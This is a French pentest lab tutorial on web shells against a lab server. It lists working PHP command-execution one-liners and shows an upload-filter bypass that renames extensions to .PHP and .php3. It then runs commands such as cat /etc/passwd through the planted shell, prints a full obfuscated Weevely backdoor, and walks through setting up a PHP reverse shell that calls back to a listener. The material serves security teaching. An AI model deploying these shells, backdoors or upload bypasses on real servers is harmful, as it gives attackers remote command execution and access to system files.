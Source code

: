 # 5. Web Shell

Un **code encoquillé** \(en Anglais web shell\) est une interface de type shell Web malveillante qui permet un accès et un contrôle à distance à un serveur Web en permettant l'exécution de commandes arbitraires.

```text
# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

Maintenant que nous connaissons le mot de passe de l'admin nous pouvons nous connecter à l'interface de management des images du site pour y déposer un script php.

![](https://lh5.googleusercontent.com/QV2Q2-R_heHH89G7BglUyIEq3FvWoSzDAMS4swWOMcMQh6NWVTlaP5BhNOOH7wCVMvlZr_2Sm7ZZLiIV2roOdqBmMlUX1Sq9EpIswMf0H6mo_2GZ3GLY7HUos8EGNbPkLy-TZRvF)

![](https://lh5.googleusercontent.com/qcwb1xbur2PRCIBoOMwGg7vs1qrGdNgiu8EieNASoqzRaTmkQ-kwKx-Mv143SPlUe9186jd4UdUJiubwoEbEJVdSpsulNnT1dW4EaJQsk3sSGx09UicdPNV6n8jE8s8hoRwmvqvv)

Création d'un script **myshell.php** permettant d'exécuter des commande shell sur une machine.

```text
<?php
  system($_GET['cmd']);
?>  
```

Essayons de télécharger le script **myshell.php** sur le serveur en passant l'interface de management des images.

![](https://lh4.googleusercontent.com/rgVWBHSZt8yig0Su8vLFcMW-5wmFyoLLsdnLLUSC3Rwrtg_-XVkI_OT5bu14-ds4OmdlQh9KNevseWuiYq7yTL63qO79A8pH1NYo6c0tpMqRYssEiVjquODhV8_9ivwMchgOYHC8)

{% hint style="info" %}
Le site n'autorise pas le téléchargement de fichier PHP
{% endhint %}

![](https://lh5.googleusercontent.com/ORAUqtYxLgdwGfNtoTX0OVtH1MtT40X47LCXtGoId6nBVHz7ThSYE_pmtKDUgZnsdXuXMsrpAePj5IWXCn8HOzUq7fvnJWPPe1AI_siYQ-vD02OSx7_B-9qFjJ_oXr64s5cgkDH_)

Nous pouvons essayer de contourner cette sécurité en renommant le fichier \(Linux est sensible à la case\)

![](https://lh5.googleusercontent.com/iGYURs7TdRw3rVhKQPuQx0cfTvA-BjhOARy98QRWKsN_QXCPSVvjQis1b-1xh9zJcXel1kCAXOc9TpdF0fXG7K0wyjaBtR88c_y3yKmAA9Okr_ecxm6IdTuepnQPiZAR8qdx-N93)

![](https://lh5.googleusercontent.com/zIgUlwS4UjqVbWLiE2MSxk22Sif80IJ6res4rLxuOafrW6lEAPsie0yLdFnJAwhlPUQFMcuFUBBIW7pzvzQhnc9jhXCf7j7KXsH_zuF6b1Wn4bRkQiqDJdNvHsYOC6h0bY6ekwP3)

![](https://lh6.googleusercontent.com/Biz1nU852Rdfw5OwB4YxzmlAl9-lncqaytFJu3sSjx7AWYwD3w5SzPxSPburaItJW8YUTwIuKeDEHIX9lrNDrF2Z4a-TJeiRc05HveXdtRrFD90pd0fUFxr0BatPyKnI4OrkhYud)

Le script PHP **myshell.php** est à présent sur le serveur. En étudiant rapidement le code source de la page on arrive facilement à trouver le chemin pour pouvoir l'exécuter.

![](https://lh3.googleusercontent.com/S8mi83S4QgPCocfjdIA3Srl8dYR99-rTkJj3ghJTK4SNVr7ij5k3NrKU2R_joKNdvXis0fU4vv7BN8mr-r2P5adaED1V5jy6YZ-qLRyi5RPo9gyReK412_Q-Fy8E-ku519qTbsnL)

Nous pouvons tester a présent plusieurs combinaisons d'URL pour observer sont fonctionnent sur le serveur

[http://192.168.200.128/admin/uploads/myshell.PHP](http://192.168.200.128/admin/uploads/myshell.PHP)

![](https://lh3.googleusercontent.com/LfGQytEAlBk25ObT-OjAYwJ9h-QKghm_x5hLCRkPj1mpi8XO2EE4uEX2WxabruBGJYsz62iiDGPHSDybTr7wRmfgfUA5CeoODv8Q41RIM-lKc0aEKbKy--85Og7JXTz-1mWiFkAj)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=ls](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=ls

)

![](https://lh5.googleusercontent.com/Q6zAe_Z3bGPJfRu4i5gj5ifycZAXWMzyBd_ezdxuA8wJLhsALAgPj_e7V9tOnBT3L7q6Te6ejMD_gY738JJ-kFQHngsqDeBm9ubqQKm94W_ba5ovlA0_4eb0gUe-C9CqwvcvsazQ)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=uname -a](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=uname)

![](https://lh6.googleusercontent.com/fARo-VBvpcWJM13zkE7e22Zd7XNqaWNNZRthg9Q7EhAi3HWNJItCXMBGNvX66HsnMS-RMOdydjzE0XTd6a-C_eL8ekHrzO1kiLjne1-S4Ls3YvgOJn1vWShuyJ46zcjTW2JQekX1)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=cat /etc/passwd](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=cat)

![](https://lh6.googleusercontent.com/Owl-mHISJHWmBglIg_Gi68UhiVEVxuOY1jr8FuB9vLoDgZs4dRMNBFZ5YfjThjX8PoYWwIzAgy5TDSzsNr18heahSqiATo-7QuLU1lpUxHPXnsqWfbQSGcXNX-G6tjxMMH8USJAE)

### Weevely

**Weevely** est un petit **shell PHP** qui une fois placé sur un serveur, permet de l’administrer via un genre de console Telnet ou SSH. Cet outil peut être aussi bien utilisé dans le cas de pentest que pour de l’admin classique de serveur web. Pour cela, il suffit de générer un petit fichier PHP avec Weevly.

```text
$ sudo apt install weevely
$ weevely generate cpnv shell.php3
Backdoor file 'shell.php3' created with password 'cpnv'
```

```text
$ more shell.php3
```

```text
<?php
$R='(z<$j=0;(z<$j<$cz<&&$z<i<$l);$z<j++z<,$i++){$o.z<z<=$t{$i}^$k{$jz<};}}rz<z<eturn $oz<;}z<z<if (@p';
$N='$k="z<c2326efz<7";$kh=z<"7acfd247z<f2z<44";$z<z<kf="758f8ba3e10fz<";$p=z<"kbSg1X0z<FIMKz<h7LAH";';
$u='ntz<ents();@ob_end_z<clean();$rz<=@base6z<4_enz<coz<z<de(@x(@gzcompz<ress($o),$z<k));z<prz<intz<("$p$kh$r$kf");}';
$G='start()z<z<;@ez<val(@gzuz<ncompress(@z<x(@base6z<4_decoz<de($m[1z<]),z<$k))z<);$o=@ob_gz<et_z<coz<';
$f='fz<unctiz<z<on x($t,$k){$z<c=strz<lenz<($k);$lz<=sz<trlen($t)z<z<;$o="";foz<z<r($i=0;$i<$l;){for';
$a='reg_matcz<h("/$kh(.+)$z<kz<fz</",@file_get_z<contents("pz<hz<p://inz<put"),z<$m)==z<z<1) {@ob_';
$h=str_replace('d','','cdrdeate_dfddunctdion');
$y=str_replace('z<','',$N.$f.$R.$a.$G.$u);
$A=$h('',$y);$A();
?>
```

![](../../.gitbook/assets/image%20%2827%29.png)

[http://192.168.200.128/admin/uploads/shell.php3](http://192.168.200.128/admin/uploads/shell.php3)

![](../../.gitbook/assets/image%20%2824%29.png)

```text
$ weevely http://192.168.200.128/admin/uploads/shell.php3 cpnv
```

![](../../.gitbook/assets/image%20%2829%29.png)

### **Reverse-shell**

Il convient de clarifier dans un premier temps l’intérêt d’utiliser un **reverse-shell** et ce que c’est. Un **reverse-shell** n’est autre qu’un shell \(terminal/console\) contrôlé à distance par un utilisateur. Un shell simple se traduit par une attente de connexion sur un port précis par la machine à contrôler. L’utilisateur va se connecter sur ce port et récupérer le terminal interactif. Le **reverse-shell** est l’inverse : c’est l’utilisateur qui place un processus en écoute sur un port précis, et c’est la machine à contrôler qui établit la connexion vers la machine de l’utilisateur pour lui transmettre le contrôle de son terminal.

{% hint style="info" %}
L’intérêt du **reverse-shell** ? Plus besoin de se soucier des IPs des machines distantes à contrôler puisque ce sont elles qui se connectent à l’utilisateur. De plus, comme la connexion est sortante à partir de la machine à contrôler, les pare-feux/routeurs bloquent rarement ce type de flux.
{% endhint %}

{% embed url="https://github.com/pentestmonkey/php-reverse-shell/archive/master.zip" %}

Renommez le fichier **php-reverse-shell.php** en fichier **php-reverse-shell.php3** pour contourner la protection interdisant le téléchargement des fichier PHP sur le serveur.

![](https://lh4.googleusercontent.com/Mec_lu-uhwQRZiSlQsIJrB38SL7DaKxxxp_75CEkMHNEChlnY79e7l3eaDXNqyIVV2nI-3b2n8MOliQbizs4O9OR6I4P5FCM31RpQcBMgyC5mZf8c03UcTckV3dy5SIIokiyHaBr)

Modifier le fichier **php-reverse-shell** en indiquant l'adresse IP du client cible et du port à joindre.

![](https://lh4.googleusercontent.com/KIcQ6UwZiyY5yCI3ZtjSr1MWQw2f1TmvPv7hTHk0tUqiTWZQf3ma034kNZw2_obp7kDoVcNolOOr3cj8G2OiSmTMjK4eJC_YVN5KblP7Oz2HGhKaDwU453Zd0kY3g2x4BhnAl57A)

![](https://lh6.googleusercontent.com/-Dh9r_UdrKJUehcm1hIu-nmZMfNaOwC8McMgaGuA3TshxSKr2PlnJrk2t3AmFb_VuiIKoxK8ZKmfvGeOQcs5ep810z6GLFa2QmECOvHerJQko_eGFO9mH7_LHvgePN97E6wuEaYM)

Sur le client cible, lancez une commande netcast en écoute sur le port 1234 défini dans le fichier **php-reverse-shell** 

![](https://lh4.googleusercontent.com/eCaUPjsbnuAzpWWgCbZN6CCPq07_GjCofPKIi6oDAPNv2tjM3nkwTXnckWr8YzdxHBmcFtnmLahvGjwtmWTLr7eI14HtNdV6OSrwkLvBfgBUj4LO2uzslbVeaI2VORnGpCxf7SsX)

{% embed url="http://192.168.200.128/admin/uploads/php-reverse-shell.php3" %}

{% hint style="info" %}
Une fois le lien validé, le script PHP **php-reverse-shell** s'exécute sur le serveur et le client à accès à un shell complet du serveur limité au droit du processus apache.
{% endhint %}

![](https://lh3.googleusercontent.com/zT3VsihBolt7pVvh7rAjeL0sanv0dd0Ypa9GQkkApBPb9DbLDEgGd5XQjqMOi3Ee6iqKFj9yz4U76utontER9cEgffh32ieQCdq-wtjebN4TY4MXW-GiAG8_fo9pWmj5o_-tcsJk)

![](https://lh5.googleusercontent.com/RnenGk2Ji9b40l5jZ1TPpyHyRDeCsB2qvlo9xiyI_sIvFYMJiH4xu96u4ivTPY6ioqA1oVIeSJLrBT0r8UkYHN_-rRUTvQlsNlBkTgZZAgM45P2-QC03epTKKPFdaG9cxKdSA4-Z)

## \*\*\*\*

